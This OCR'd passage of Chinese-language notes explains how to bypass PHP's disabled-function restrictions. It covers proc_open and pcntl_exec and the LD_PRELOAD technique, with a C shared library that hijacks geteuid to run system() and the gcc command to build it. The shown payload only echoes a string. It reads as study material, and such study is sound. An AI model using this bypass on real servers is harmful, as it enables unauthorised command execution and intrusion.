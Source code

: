 ​				print_r($s)

}

?>

## proc_open

`proc_open($command,$descriptor_spec,$pipes,$cwd,$env_vars,$options)`

#没有回显

## pcntl_exec

`pcntl_exec(string $path,array $args=?,array $envs=?)`



# 替换绕过函数过滤

  尝试使用漏掉的函数



# LD_PRELOAD绕过原理介绍

`mail`     #内嵌在php里

`imagick`      #需要扩展安装



`vim demo.php`

`strace -o 1.txt -f php demo.php`    #把demo.php执行的动作以文本形式放在1.txt

`cat 1.txt | grep execve`         #检查调用了哪些子进程

`readelf -Ws /usr/sbin/sendmail`    #查看sendmail有哪些库

`vim demo.c`    

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
        system("echo'xiaokeai?'");
}
int geteuid(){
        unsetenv("LD_PRELOAD");
        payload();
}

`gcc -shared -fPIC demo.c -o demo.so`

- `gcc`: GNU Compiler Collection 的命令，用于编译源代码。
- `-shared`: 这个选项告诉 GCC 编译器生成一个动态共享库，而不是可执行文件。动态共享库也称为共享对象（shared object）或动态链接库（dynamic link library）。
- `-fPIC`: 这个选项告诉编译器生成位置无关的代码（Position Independent Code，PIC），这是在创建共享库时通常需要的，以便共享库可以加载到任意内存位置而不引起问题。
- `demo.c`: 这是要编译的源代码文件名，其中包含了共享库的实现。
- `-o demo.so`: 这个选项指定编译输出的文件名为 `demo.so`，通常动态共享库的文件扩展名是 `.so`（Linux 系统上）或者 `.dll`（Windows 系统上）。
